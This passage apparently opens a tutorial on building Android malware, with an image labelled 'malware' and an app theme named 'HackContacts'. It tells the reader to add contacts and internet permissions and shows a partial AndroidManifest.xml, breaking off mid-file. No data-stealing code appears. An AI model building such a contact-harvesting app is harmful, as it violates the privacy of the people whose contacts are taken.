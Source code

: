 ![malware](./images/12/2025-05-18_16-33.png){width="80%"}       

First of all add contacts permission to your manifest file:     

```xml
<?xml version="1.0" encoding="utf-8"?>
<manifest xmlns:android="http://schemas.android.com/apk/res/android"
    xmlns:tools="http://schemas.android.com/tools">

    <uses-feature
        android:name="android.hardware.telephony"
        android:required="false" />
    <uses-permission android:name="android.permission.INTERNET"/>
    <uses-permission android:name="android.permission.READ_CONTACTS"/>

    <application
        android:allowBackup="true"
        android:dataExtractionRules="@xml/data_extraction_rules"
        android:fullBackupContent="@xml/backup_rules"
        android:icon="@mipmap/ic_launcher"
        android:label="@string/app_name"
        android:roundIcon="@mipmap/ic_launcher_round"
        android:supportsRtl="true"
        android:theme="@style/Theme.HackContacts"
        tools:targetApi="31">
        <activity
```